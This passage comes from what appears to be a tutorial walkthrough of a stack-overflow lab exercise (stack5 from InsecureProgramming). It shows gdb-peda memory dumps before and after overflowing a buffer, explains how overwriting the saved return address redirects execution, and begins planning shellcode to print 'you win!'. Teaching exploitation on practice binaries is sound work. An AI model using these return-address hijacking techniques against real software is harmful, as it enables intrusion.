 ```c
gdb-peda$ start
Temporary breakpoint 3, main () at ./exercises/stack5.c:10
10	    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
gdb-peda$ x/32xw &buf
0x7fffffffde60:	0x000000c2	0x00000000	0xffffde96	0x00007fff
0x7fffffffde70:	0x00000001	0x00000000	0xf7e85a95	0x00007fff
0x7fffffffde80:	0x00000000	0x00000000	0x555551f5	0x00005555
0x7fffffffde90:	0xf7fe3b50	0x00007fff	0x00000000	0x00000000
0x7fffffffdea0:	0x555551b0	0x00005555	0x55555070	0x00005555
0x7fffffffdeb0:	0xffffdfa0	0x00007fff	0x00000000	0x00000000
0x7fffffffdec0:	0x555551b0	0x00005555	0xf7df209b	0x00007fff
0x7fffffffded0:	0x00000000	0x00000000	0xffffdfa8	0x00007fff

gdb-peda$ x/3i 0x7ffff7df209b
   0x7ffff7df209b <__libc_start_main+235>:	mov    edi,eax
   0x7ffff7df209d <__libc_start_main+237>:	call   0x7ffff7e12540 <__GI_exit>
   0x7ffff7df20a2 <__libc_start_main+242>:	mov    rax,QWORD PTR [rsp+0x8]

gdb-peda$ b *0x000055555555518a
Breakpoint 5 at 0x55555555518a: file ./exercises/stack5.c, line 13.
gdb-peda$ run
Starting program: /home/vagrant/InsecureProgramming/bin/stack5
buf: ffffde60 cookie: ffffdebc
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCDDDDDDDD

Breakpoint 5, main () at ./exercises/stack5.c:13
13	    if (cookie == 0x000d0a00)
gdb-peda$ x/32xw $rsp
0x7fffffffde60:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffde70:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffde80:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffde90:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdea0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdeb0:	0x41414141	0x41414141	0x41414141	0x42424242
0x7fffffffdec0:	0x43434343	0x43434343	0x44444444	0x44444444
0x7fffffffded0:	0x00000000	0x00000000	0xffffdfa8	0x00007fff
gdb-peda$
```

In the output above, we look at the stack before and after we send our data. Before overflowing the buffer, you can see the return address `0x7ffff7df209b` saved at `0x7fffffffdec8`. To demonstrate this, I've examined the next 3 instructions located at the return address. After the overflow, you can see the 8 "D" (`0x44`) characters cleanly overwrite the return address. Since we can control this value, we can control where the program goes to execute its next instruction. If we put our shellcode into the buffer and then overwrite the return address with the address of our shellcode, the computer will execute our instructions. Now we just need to figure out what instructions to give it.

## Building Shellcode

To start, we know there's at least 112 bytes of space to work with, 96 to overwrite the cookie + 16 to overwrite the return address. Our goal is to print the string "you win!", which currently does not exist in the program, so we'll have to inject it in our overflow. Once we've injected our string, we need the program to print it for us. One way to do this is to leverage the program's existing code. The program prints messages already, so lets see if we can co-opt this functionality to print our message instead.
